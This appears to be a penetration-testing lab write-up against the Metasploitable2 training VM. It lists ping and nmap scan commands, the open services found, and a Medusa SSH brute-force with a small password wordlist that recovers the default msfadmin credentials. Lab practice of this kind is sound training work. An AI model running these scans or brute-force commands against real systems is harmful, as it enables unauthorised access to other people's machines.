 ### 🧰 Tools & Resources
- **Target**: Metasploitable2
- **IP Address**: 192.168.56.101
- **Tools Used**: Nmap, Ping, Curl
---

### 🔹 Host Discovery,Port Scan and Service Enumeration
### Commands Used
``` bash
ping 192.168.56.101
nmap -sS -p- 192.168.56.101
nmap -sV -O 192.168.56.101
```
### ✅ Result
- Open ports found: 21, 22, 23, 80, 139, 445, 3306...
- Services detected: OpenSSH 4.7p1, Apache 2.2.8, vsftpd 2.3.4 e.t.c

## Phase 1: Initial Access

### 🎯 Objective
Gain unauthorized access to the target system by brute-forcing SSH credentials using Medusa.

---

### 🧰 Tools & Resources
- **Tool Used**: Medusa v2.3
- **Target Service**: SSH (Port 22)
- **Target Version**: OpenSSH 4.7p1 Debian 8ubuntu1
- **Wordlist**: Custom wordlist created manually

---

### 🧪 Steps Taken

#### 1. Created Custom Wordlist
To increase brute-force efficiency, a short custom wordlist was created containing likely weak passwords.

**Command:**
```bash
echo -e "msfadmin\nadmin\n123456\npassword\nletmein" > ~/Documents/custom.txt
```
#### 2. Executed Medusa Brute-Force Attack

**Command:**
```bash
medusa -h 192.168.56.101 -u msfadmin -P ~/Documents/custom.txt -M ssh
```
### ✅ Result
- **Username**: msfadmin
- **Password**: msfadmin
- **Access Level**: User shell access via SSH
